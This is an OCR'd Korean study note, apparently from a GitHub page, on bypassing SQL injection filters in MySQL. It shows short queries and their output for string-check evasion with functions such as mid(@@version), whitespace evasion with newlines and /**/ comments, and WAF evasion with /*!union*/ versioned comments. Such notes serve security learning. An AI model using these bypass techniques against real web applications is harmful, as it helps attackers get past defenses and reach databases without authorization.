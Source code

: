 - MySQL 가젯을 이용한 문자열 검사 우회
    - 가젯 :  함수 또는 표현식 중 공격에 활용 가능한 함수 조합 또는 우회 도구
    
    ```sql
    mysql> select mid(@@version,12,1);
    /*
    +---------------------+
    | mid(@@version,12,1) |
    +---------------------+
    | n                   |
    +---------------------+
    */
    ```
    
- 개행을 이용한 공백 검사 우회
    
    ```sql
    mysql> select
        -> 1;
    /*
    +---+
    | 1 |
    +---+
    | 1 |
    +---+
    */
    ```
    
- 주석을 이용한 공백 검사 우회
    
    ```sql
    mysql> select/**/1;
    /*
    +---+
    | 1 |
    +---+
    | 1 |
    +---+
    */
    ```
    
- WAF 주석을 이용한 우회 : /**/는 WAF에서는 주석이지만 SQL에서는 실행된다.
    
    ```sql
    mysql> select 1 /*!union*/ select 2;
    /*
    +---+
    | 1 |
    +---+
    | 1 |
    | 2 |
    +---+
    2 rows in set (0.00 sec)
    */
    ```
    